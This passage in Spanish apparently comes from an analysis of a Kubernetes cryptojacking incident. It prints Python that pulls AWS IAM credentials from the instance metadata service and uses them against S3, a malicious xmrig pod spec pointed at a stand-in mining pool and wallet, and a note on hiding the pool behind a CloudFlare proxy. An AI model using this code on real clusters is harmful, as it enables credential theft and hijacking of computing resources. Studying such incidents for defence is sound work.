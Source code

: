 ```python
# Desde los pods de Kubernetes, accedieron a credenciales AWS
import boto3
import requests

# Metadata service accesible desde pods
metadata_url = "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
role = requests.get(metadata_url).text
credentials = requests.get(f"{metadata_url}{role}").json()

# Usar credenciales para acceder a S3
s3 = boto3.client(
    's3',
    aws_access_key_id=credentials['AccessKeyId'],
    aws_secret_access_key=credentials['SecretAccessKey'],
    aws_session_token=credentials['Token']
)

# Encontrar datos sensibles
buckets = s3.list_buckets()
```

#### 3. Despliegue de Mineros

```yaml
# Pod malicioso desplegado en el cluster
apiVersion: v1
kind: Pod
metadata:
  name: crypto-miner
spec:
  containers:
  - name: miner
    image: xmrig/xmrig:latest
    resources:
      limits:
        cpu: "4"
        memory: "8Gi"
    command:
      - "./xmrig"
      - "-o"
      - "mining-pool.com:3333"
      - "-u"
      - "attacker-wallet"
```

### Técnicas de Ocultamiento

#### 1. Mining Pool con CloudFlare

```python
# Los atacantes usaron CloudFlare para ocultar el mining pool
# Dificultando la detección por IP

MINING_POOL = "mining.cloudflare-proxy.com"
# En realidad apuntaba a un pool de minería
```
